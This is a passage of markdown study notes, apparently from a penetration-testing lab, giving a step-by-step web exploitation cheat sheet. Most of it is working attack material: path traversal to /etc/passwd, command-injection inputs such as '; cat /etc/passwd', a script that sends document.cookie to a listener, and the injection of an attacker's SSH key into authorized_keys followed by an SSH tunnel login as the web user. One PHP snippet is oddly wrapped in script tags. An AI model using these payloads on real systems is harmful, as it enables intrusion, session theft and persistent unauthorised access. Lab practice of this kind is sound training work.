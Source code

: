```bash
ssh -S /tmp/jump jump -O cancel -L 1111:<next ip>:<port>
```

---

## 5. Web Exploitation Day 1

### HTTP Methods

- Most important: `GET` and `POST`

### XSS Script Example

```html
<script>alert('XSS');</script>
```

### Path Traversal

- Try `../../` on the webpage and look for `/etc/passwd`.

### Command Injection Example

```php
<script>system("ping -c 1".$_GET["ip"]);</script>
; cat /etc/passwd
```

### Useful HTTP Nmap Script

```bash
proxychains nmap -Pn -T5 -sT -p 80 --script http-enum.nse 10.208.50.42
```

### Steps After Initial Enumeration

1. In Firefox, visit: `127.0.0.1:1111/robots.txt`
2. Visit: `127.0.0.1:1111/java`
3. Use F12 for developer tools as needed.
4. For button prompts on websites, try commands like `; whoami`.
5. For POST/GET methods with a button, use path traversal: `../../../../../../../etc/passwd`
6. Steal cookies:
   ```html
   <script>document.location="http://127.0.0.1:42070/?username="+document.cookie;</script>
   ```
7. For SSH key storage:
   ```bash
   mkdir /var/ww/.ssh
   ; ls -la /var/ww
   ```
8. Generate SSH key (on your machine):
   ```bash
   ssh-keygen -t rsa
   cat ~/.ssh/id_rsa.pub
   ```
9. Inject your key:
   ```bash
   ; echo "<your-key>" > /var/ww/.ssh/authorized_keys
   ```
10. Forward port for SSH:
    ```bash
    ssh -S /tmp/jump jump -O forward -L2222:10.208.50.42:22
    ssh ww-data@localhost -p2222
    ```

---